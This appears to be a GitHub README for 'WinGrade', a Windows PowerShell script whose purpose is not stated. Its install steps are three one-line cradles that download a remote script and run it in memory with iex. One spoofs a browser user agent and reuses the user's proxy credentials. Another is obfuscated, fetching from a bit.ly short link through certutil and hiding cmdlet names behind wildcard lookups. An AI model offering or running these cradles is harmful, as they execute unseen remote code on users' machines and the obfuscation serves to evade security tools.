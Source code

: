 # WinGrade

You can execute it in every Windows Operating System from Windows 7 - 10.

You don't have to Download the Program directly at github.
[x]

Just execute [CMD]:
```powershell
powershell "iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')"
```
or
```powershell
powershell "$down=New-Object Net.WebClient;$down.Headers['User-Agent']='Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/525.19 (KHTML, like Gecko) Chrome/1.0.154.53 Safari/525.19';$down.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials;$down.DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')|iex"
```
in [POWERSHELL]:

```powershell
powershell "iex(((C:\Windows\System32\certutil -ping https://bit.ly/2tZuas2|&(GV *ecu*t -ValueOn).InvokeCommand.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object{`$_.Name-ilike'Ge*ts'}).Name).Invoke('*ct-Ob*')-Skip 2|&(GV *ecu*t -ValueOn).InvokeCommand.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object{`$_.Name-ilike'Ge*ts'}).Name).Invoke('*ct-Ob*')-SkipLast 1)-Join'`r`n'))"
```

Tested on following Operating Systems:

|   System        |  x64  |  x86  |
| :---            | :---: | :---: |
| Windows 10      |  [x]  |  [ ]  |
| Windows 8.1     |  [x]  |  [ ]  |
| Windows 8       |  [ ]  |  [ ]  |
| Windows 7       |  [x]  |  [ ]  |
| Windows Vista   |  [ ]  |  [ ]  |

This Script is still in the early Alpha release!!! And has some bugs
